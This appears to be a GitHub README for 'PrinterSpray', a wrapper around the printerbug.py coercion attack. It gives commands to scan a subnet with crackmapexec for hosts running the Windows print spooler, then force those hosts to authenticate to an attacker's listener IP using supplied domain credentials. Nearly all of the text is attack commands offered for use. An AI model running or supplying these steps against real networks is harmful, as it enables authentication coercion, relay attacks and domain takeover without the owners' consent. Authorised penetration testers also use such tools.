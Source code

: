 # PrinterSpray

Wrapper of https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py to be used with a list of IPs. 

Discover potentual targets

```
crackmapexec smb [subnet] -M spooler | grep "Spooler service enabled" | awk -F " " '{print$2}' > spooler.txt
```

Run against hosts that have the spooler service enabled

```
./printerspray.sh -t [targets file] -d [AD domain] -u [username] -p [pwd] -l [listenerIP]
```

Example:

```
./printerspray.sh -t ./spooler.txt -d 'labdomain.local' -u 'ADuser1' -p 'pwd' -l 192.168.1.23
```
